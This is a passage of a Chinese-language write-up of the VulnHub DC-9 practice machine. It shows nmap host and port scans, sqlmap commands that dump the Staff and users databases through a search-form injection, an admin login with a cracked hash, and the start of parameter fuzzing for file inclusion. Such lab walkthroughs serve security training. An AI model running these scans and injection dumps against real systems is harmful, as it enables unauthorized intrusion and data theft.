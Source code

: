 开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.143` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.143
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/2.png)

web 和 ssh,不多说了,从 web 开始

---

# 中期-漏洞利用

发现一个搜索框,抓个包另存为 1.txt,sqlmap 跑跑看有没有 POST 注入

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/3.png)

```
sqlmap -r 1.txt
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/4.png)

运气挺好,直接拖库
```bash
sqlmap -r 1.txt --dbs
sqlmap -r 1.txt -D Staff --dump
sqlmap -r 1.txt -D users --dump
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/5.png)

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/6.png)

Staff 库跑出了个 hash `856f5de590ef37314e7c3bdf6f8a66dc` transorbital1 ,users 库跑出了一堆账号密码

登录试试,使用 admin transorbital1 ,可以登录,users 库里的一堆账号密码不行

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/7.png)

最底下提示 `File does not exist`,可能有文件包含,但是没有任何参数,估计要 Fuzz 参数了,和 DC5 一样,准备好字典,burp 跑起来

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/8.png)

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/9.png)
